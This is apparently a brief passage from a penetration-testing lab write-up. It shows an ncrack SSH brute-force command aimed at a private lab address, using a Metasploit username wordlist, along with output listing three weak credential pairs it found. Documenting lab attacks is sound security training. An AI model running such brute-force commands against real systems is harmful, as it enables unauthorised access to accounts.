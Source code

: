wordlists: `/usr/share/wordlists/metasploit/unix_users.txt`, 

`sudo ncrack -U /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_users.txt ssh://10.0.2.5 -v`

```
sudo ncrack -U /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_users.txt ssh://10.0.2.5 -v -v
[sudo] password for kali: 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-07-17 05:56 EDT

Discovered credentials on ssh://10.0.2.5:22 'postgres' 'postgres'
Discovered credentials on ssh://10.0.2.5:22 'service' 'service'
Discovered credentials on ssh://10.0.2.5:22 'user' 'user'
ssh://10.0.2.5:22 finished.

Discovered credentials for ssh on 10.0.2.5 22/tcp:
10.0.2.5 22/tcp ssh: 'postgres' 'postgres'
10.0.2.5 22/tcp ssh: 'service' 'service'
10.0.2.5 22/tcp ssh: 'user' 'user'

Ncrack done: 1 service scanned in 8095.01 seconds.
Probes sent: 26883 | timed-out: 0 | prematurely-closed: 26871

Ncrack finished.
```